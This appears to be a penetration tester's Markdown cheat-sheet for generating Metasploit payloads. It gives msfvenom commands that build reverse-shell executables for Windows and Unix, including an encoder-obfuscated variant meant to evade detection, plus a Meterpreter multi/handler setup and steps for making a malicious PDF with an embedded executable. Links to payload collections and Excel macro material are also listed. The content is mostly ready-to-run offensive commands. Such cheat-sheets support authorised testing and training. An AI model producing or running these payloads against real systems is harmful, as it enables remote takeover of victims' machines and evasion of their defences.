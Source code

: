 ### [Payload Resources]
https://netsec.ws/?p=331  
https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/  
https://github.com/nccgroup/Winpayloads  
https://github.com/swisskyrepo/PayloadsAllTheThings
https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom  
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/  

# [Generating Payloads on Windows using Metasploit]

### [Regular Reverse TCP]
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -f exe > shell.exe
[Poly Morphic Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -e x64/shikata_ga_nai -i 100 -f exe > file.exe

Creating a reverse tcp netcat comamnd
msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<port> R

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe
```

### [Unique Reverse TCP]
```
msfvenom -p windows/powershell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > pshell.exe
```

### [Handler]
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

PAYLOAD => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST eth0

LHOST => tun0

msf5 exploit(multi/handler) > set LPORT 32119

LPORT => 32119

msf5 exploit(multi/handler) > run

### [PDF]
```
Creating malicious PDF
use exploit/windows/fileformat/adobe_pdf_embedded_exe

set payload windows/meterpreter/reverse_tcp
set INFILENAME x.pdf
set FILENAME x.pdf
exploit
```
### [xls Macros]
https://www.manitonetworks.com/security/2016/8/15/macro-payloads-in-excel-with-metasploit  

### [xls XXE]
https://www.youtube.com/watch?v=LZUlw8hHp44  

